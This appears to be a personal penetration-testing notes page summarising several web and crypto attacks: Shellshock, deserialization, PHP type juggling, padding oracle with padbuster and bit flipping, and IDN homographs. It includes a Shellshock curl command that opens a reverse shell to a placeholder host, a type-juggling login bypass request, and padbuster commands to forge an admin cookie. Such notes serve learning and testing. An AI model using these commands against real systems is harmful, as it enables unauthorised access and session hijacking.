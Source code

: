```yaml
---
title: Notes | Others
author: Zeropio
date: 2022-04-25
categories: [Notes, Vulnerabilities]
tags: [shellshock, poa, deserialization, idor]
permalink: /notes/vulnerabilities/others
---
```



# ShellShock Attack
This vulnerability in Bash allows remote code execution without confirmation. A series of random characters, () { :; }; , confuses Bash because it doesn't know what to do with them, so by default, it executes the code after it.

We can manipulate the **User-agent** to execute it, for example:
```console
> curl -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/myip/443 0>&1" http://example.com/
```

---

# Deserialization Attacks
**Serialization** is the process of turning some object into a data format that can be restored later. People often serialize objects in order to save them to storage, or to send as part of communications.
**Deserialization** is the reverse of that process, taking data structured from some format, and rebuilding it into an object. Today, the most popular data format for serializing data is JSON. Before that, it was XML.

---

# Type Juggling
With **Type Juggling** during the comparison of variables of different types, PHP will first convert them to a common, comparable type.

For example we can send data like this:
```console
> curl -s -X POST --data 'usuario=admin&password=1' http://[ip] | html2text
```
We will probably get an error, but if we modify the content:
```console
> curl -s -X POST --data 'usuario=admin&password[]=1' http://[ip] | html2text
```
We can log in.

---

# Padding Oracle Attack

A padding oracle attack is an attack which uses the padding validation of a cryptographic message to decrypt the ciphertext.

## Padbuster
A padding oracle attack is an attack which uses the padding validation of a cryptographic message to decrypt the ciphertext.

We can use **padbuster** to decode a cookie and try to do a cookie hijacking:
```console
$ padbuster [url] 8 -cookie "auth=[cookie]" -encoding 0
```

If it is vulnerable, we can encrypt new cookies. For example if the output is 'user=youruser' we can try:
```console
$ padbuster [url] 8 -cookie "auth=[cookie]" -encoding 0 -plaintext "user=admin"
```

Another way to recretate this if we can register a new user and login, we can create a user like **admin=**. This will create an user with the same privilegies as the user admin.

## Bit Flipper Attack / BurpSuite
Another way is to register a new user like **bdmin**. Send the request to the **Intruder**.
Then we can use the following payload: *type: Bit flipper, Format of original data: Literal value, URL encode: disable*

---

# IDN homographic attack
The internationalized domain name homograph attack is a way a malicious party may deceive computer users about what remote system they are communicating with, by exploiting the fact that many different characters look alike. For example, a regular user of example.com may be lured to click a link where the Latin character "a" is replaced with the Cyrillic character "а". This kind of spoofing attack is also known as script spoofing.
